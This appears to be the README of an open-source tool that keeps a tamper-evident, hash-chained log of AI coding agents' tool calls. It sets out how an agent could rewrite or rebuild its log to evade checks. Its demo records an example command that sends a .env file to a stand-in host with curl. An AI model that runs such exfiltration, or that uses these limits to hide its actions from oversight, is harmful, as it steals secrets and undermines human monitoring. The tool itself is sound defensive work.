



<!-- markdownlint-disable-next-line MD041 -->


**A tamper-evident security record for AI agents.**

[](https://github.com/Acquiredl/loxodonta/actions/workflows/tests.yml) [](https://www.python.org/downloads/) [](#install) [](LICENSE)

loxodonta keeps a log of everything your AI coding agent does. The goal is a log the agent cannot rewrite without loxodonta catching it. It works with Claude Code and Codex CLI, and it needs Python 3.9 or newer and nothing else.


## What each part does

- **The recorder** (`loxodonta.py`) writes one line each time the agent uses a tool: a file read, a command run, a page fetched. Each line holds a fingerprint of the line before it, so the lines form a chain.
- **`verify`** is the recorder's checking command. It rereads the log and works every fingerprint out again. A line that was changed, removed or moved no longer fits, and `verify` names it.
- **The supervisor** (`supervisor.py`) runs that check over every session on the machine and shows the results on one page.
- **The receiver** (`receiver.py`) runs on a second machine and keeps a copy of the log there, where the agent cannot reach it.



## See it work

Record two lines, check them, rewrite one word, check again. This runs anywhere `loxodonta.py` does:

<!-- pin:tamper-demo -->

```
$ python loxodonta.py init
initialized receipts.jsonl
$ python loxodonta.py log --actor agent --action "Read: .env"
logged entry 1
$ python loxodonta.py log --actor agent --action "Bash: curl --data @.env https://example.com/collect"
logged entry 2
$ python loxodonta.py verify
VALID
$ sed -i 's/Read: .env/Read: README.md/' receipts.jsonl
$ python loxodonta.py verify
BROKEN at entry 1: entry_hash does not match canonical form
```

## Install

Take `loxodonta.py` and `supervisor.py` from the [releases page](https://github.com/Acquiredl/loxodonta/releases) and put them in one folder. The commands say `python`; on macOS and Linux it is often `python3`.

```
python loxodonta.py install-hook            # Claude Code; then restart open sessions
python loxodonta.py install-hook --codex    # Codex CLI; then trust the new hooks once with /hooks
python supervisor.py scan                   # every session so far, one verdict each
```

From then on every session on the machine is recorded. `uninstall-hook` takes it out again. [docs/START.md](docs/START.md) walks the install one step at a time, or has your agent do it with you.

## What it does not do

- **It does not stop the agent.** A line is written after the tool call it records.
- **It only sees tool calls.** What runs when the agent's app starts, or inside an MCP server, leaves no line.
- **It does not say the agent told the truth.** A line holds what the agent's app reported, and `verify` says nobody changed it since.
- **On one machine, the goal is not met yet.** The agent can rebuild the whole log from scratch and `verify` will pass it. Catching that takes a copy the agent cannot reach, which is the next section.

## Keeping a copy out of the agent's reach

Three things hold something a rebuilt log cannot match:

- **A head kept elsewhere.** The head is the last line's fingerprint, one short line that stands for the whole log.
- **An OpenTimestamps proof.** [OpenTimestamps](https://opentimestamps.org) is a public timestamping service. It dates the head a few hours after the session ends, so a log rebuilt after that shows, even when the one rebuilding it owns the machine. Its proof is a file beside the log, which the agent can delete, so keep a copy elsewhere.
- **The receiver.** It keeps every line it is sent and only ever adds.



[How it works, in full](docs/HOW-IT-WORKS.md) walks through each one and the setup that turns them all on. [docs/CLAIMS.md](docs/CLAIMS.md) says what is promised and where it stops.

## Why not just

- **Git?** Git records what was committed. This records every read, fetch and command, committed or not.
- **The vendor's own logs?** You take the vendor's word for those. Anyone can check this log, with one file.
- **A plain log file?** The agent can edit it, and nothing shows.

## Try it, and try to break it

Everything measured so far came from my machines, so the gap is other people, other setups and other workloads. Use it for a week, break it any way you can, and tell me what you think. A way around a promise is the most useful issue this repository can get.

Every other page is in [docs/](docs/README.md), and [SECURITY.md](SECURITY.md), [CONTRIBUTING.md](CONTRIBUTING.md) and the [CHANGELOG](CHANGELOG.md) sit beside this file. MIT licensed.
